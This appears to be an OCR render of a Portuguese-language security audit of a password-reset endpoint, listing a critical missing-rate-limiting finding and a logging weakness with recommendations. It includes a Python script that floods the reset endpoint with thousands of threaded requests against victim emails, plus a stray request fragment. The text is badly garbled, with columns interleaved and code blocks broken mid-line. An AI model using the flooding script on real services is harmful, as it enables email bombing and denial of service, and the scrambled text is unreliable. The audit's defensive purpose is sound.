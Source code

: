 ```javascript    remainder = (sum * 10) % 11;

    -d '{"identifier":"victim@domain.com"}' &

if (attempts >= 5) {done

  throw new TooManyRequestsException('Muitas tentativas. Tente novamente em 1 hora.');```

}

```---



#### 🟡 MÉDIA: Logs Detalhados Ausentes## 🚨 VULNERABILIDADES CRÍTICAS

**CVSS 4.8 (MEDIUM)**

### 1. AUSÊNCIA DE RATE LIMITING

**Descrição:****Severidade:** 🔴 CRÍTICA  

Sistema de auditoria básico sem correlação avançada de eventos suspeitos.**CVSS:** 8.2  

**Impacto:** DoS, Email bombing, Brute force

**Impacto:**

- Dificuldade em detectar ataques coordenados**Exploração:**

- Resposta a incidentes comprometida```python

- Compliance prejudicadoimport requests

import threading

**Recomendação:**

Implementar sistema de auditoria mais robusto com:def attack_reset(email):

- Correlação de eventos por IP    for _ in range(1000):

- Detecção de padrões anômalos        requests.post('http://localhost:3000/auth/esqueceu-senha', 

- Alertas automáticos                     json={'identifier': email})

- Retenção de logs por período adequado

# Múltiplas threads atacando simultaneamente

---for i in range(10):

    threading.Thread(target=attack_reset, 

## 📈 MÉTRICAS DE SEGURANÇA                    args=[f'victim{i}@domain.com']).start()

```
